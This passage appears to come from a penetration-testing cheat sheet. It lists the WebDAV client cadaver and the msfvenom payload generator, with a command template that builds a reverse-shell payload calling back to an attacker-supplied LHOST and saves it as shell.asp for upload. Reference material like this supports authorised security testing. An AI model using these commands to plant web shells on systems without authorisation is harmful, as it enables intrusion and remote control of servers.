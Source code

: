 > [**`cadaver`**](https://www.kali.org/tools/cadaver/) - supports file *upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking*. Pre-installed on Kali Linux and Parrot OS.

```bash
cadaver [OPTIONS] <URL>
```

![cadaver](1-system-attackassets/image-20230310124041568.png)

> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder

```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<PORT> -f <file_type> > shell.asp
```

![msfvenom](1-system-attackassets/image-20230310154748079.png)
